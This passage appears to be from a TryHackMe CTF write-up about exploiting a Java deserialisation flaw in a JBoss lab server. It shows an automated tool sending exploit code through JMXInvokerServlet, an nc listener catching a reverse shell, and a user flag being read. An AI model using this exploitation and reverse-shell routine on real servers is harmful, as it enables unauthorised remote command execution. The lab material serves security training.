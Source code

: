   ```
  
  * Do you want to try to run an automated exploitation via "jmx-console" ?
     If successful, this operation will provide a simple command shell to execute 
     commands on the server..
     Continue only if you have permission!
     yes/NO? no
  
  
   * Do you want to try to run an automated exploitation via "JMXInvokerServlet" ?
     If successful, this operation will provide a simple command shell to execute 
     commands on the server..
     Continue only if you have permission!
     yes/NO? yes
  
   * Sending exploit code to http://10.10.194.49:8080. Please wait...
  
   * Please enter the IP address and tcp PORT of your listening server for try to get a REVERSE SHELL.
     OBS: You can also use the --cmd "command" to send specific commands to run on the server.
     IP Address (RHOST): [YOUR-THM-IP]
     Port (RPORT): 4444
  
   * The exploit code was successfully sent. Check if you received the reverse shell
     connection on your server or if your command was executed. 
     Type [ENTER] to continue...

  nc -lvnp 4444                    
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.194.49] 35720
  bash: cannot set terminal process group (820): Inappropriate ioctl for device
  bash: no job control in this shell
  cmnatic@thm-java-deserial:/$ whoami
  whoami
  cmnatic
  cmnatic@thm-java-deserial:/$ 
  ```
  
- I had to put my baby putty shell in action as well then started looking for last two flags.

---

## 🧍 User Privilege Escalation

- This is one self-explained, it's in the `/home/jboss`.

  ```
  cmnatic@thm-java-deserial:/home/jboss$ cat .jboss.txt 
  THM{50c10ad46b5793704601ecdad865eb06}
  ```
  
- Now it's escalation time!

---
